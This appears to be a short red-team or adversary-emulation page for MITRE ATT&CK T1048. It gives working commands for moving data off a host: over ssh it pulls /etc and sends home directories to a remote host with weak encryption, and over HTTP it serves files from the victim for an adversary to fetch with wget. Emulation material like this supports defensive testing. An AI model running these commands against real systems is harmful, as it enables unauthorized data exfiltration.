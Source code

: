 ﻿## Exfiltration Over Alternative Protocol

MITRE ATT&CK Technique: [T1048](https://attack.mitre.org/wiki/Technique/T1048)

### SSH

Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

Local to Remote:

    tar czpf - /home/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /home.tar.gz.enc'

### HTTP

A firewall rule (iptables or firewalld) will be needed to allow exfiltration on port 1337.

Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt